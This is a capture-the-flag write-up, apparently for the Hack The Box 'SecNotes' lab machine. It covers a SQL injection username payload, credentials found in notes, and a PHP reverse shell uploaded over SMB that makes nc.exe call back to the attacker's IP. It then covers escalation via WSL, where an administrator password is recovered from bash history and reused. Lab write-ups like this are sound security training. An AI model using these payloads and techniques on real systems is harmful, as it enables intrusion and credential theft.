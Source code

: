 ### SQLI

We can see a login page on port 80:

```txt
http://10.10.10.97/login.php
```

![[login.php.png]]

We can register a new user using this form:

```txt
http://10.10.10.97/register.php
```

![[register.png]]

**New user:** dev
**New pass:** devdev

```txt
http://10.10.10.97/home.php
```

**possible user:** tyler

![[home.png]]

After enumerating the web server on port 80, we find that usernames are reflected. We can exploit this by making a new user with the following name:

```txt
' or '1'='1
```

We can now see information on the home screen:

![[sqli.png]]

We can see user credentials under the *new site* note:

![[credentials.png]]

### SMB login

Now we can login to the smb server on port 445.

```txt
445/tcp open  microsoft-ds Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h37m00s, deviation: 4h02m31s, median: 16m59s
| smb-os-discovery: 
|   OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: SECNOTES
|   NetBIOS computer name: SECNOTES\x00
|   Workgroup: HTB\x00
|_  System time: 2022-05-06T10:52:57-07:00
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-05-06T17:52:55
|_  start_date: N/A
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

Share name to connect to: 

```txt
\\secnotes.htb\new-site
```

Credentials:

```txt
user: tyler 
pass: 92g!mA8BGjOirkL%OG*&
```

![[9-screenshots-storage/smb_login.png]]

The directory of the smb server is the root directory for the web server on port 8808.

```txt
http://10.10.10.97:8808/
```

### Reverse Shell

create a php file with a reverse shell payload:

```txt
<?php
system('nc.exe -e cmd.exe 10.10.14.4 4321')
?>
```

start a netcat listener:

```txt
nc -lvnp 4321
```

browse to the shell file:

```txt
http://10.10.10.97:8808/revshell2.php
```


download static netcat binary for windows:

```txt
wget https://github.com/int0x33/nc.exe/raw/master/nc.exe
```

we can upload the reverse shell payload and the static binary to the smb server using the following commands:

```txt
put revshell.php
put nc.exe
```

![[uplaod_revshell.png]]

we get a shell:

![[pop_shell.png]]

local.txt:

```txt
41de0a5e07b2275bf24c378d2fc117f7
```

![[user.txt.png]]

### Privesc

There is a link file for bash:

![[bash_link.png]]

We can search for the *bash.exe* file:

```txt
dir "bash.exe" /s
```

The file exists in the following directory:

```txt
C:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5
```

We can see that WSL is installed on the system, and there exists an installation of a Ubuntu image.

![[ubuntu_wsl.png]]

spawn a shell in WSL:

```txt
bash.exe -i
```

We are root in WSL:

![[wsl-root.png]]

**Get Admin**

We can see a revealing command in the root user's bash history:

![[bash_history.png]]

```txt
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
> .bash_history
```

We can modify the command to login as *administrator* remotely

```txt
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\10.10.10.97\\c$
```

![[smb_login 1.png]]

Now we can download the *root.txt* file with the following commands:

```txt
cd Users\Administrator\Desktop
get root.txt
```

root.txt

```txt
c93668bc8538fd2968812db50866b618
```

![[root.txt.png]]	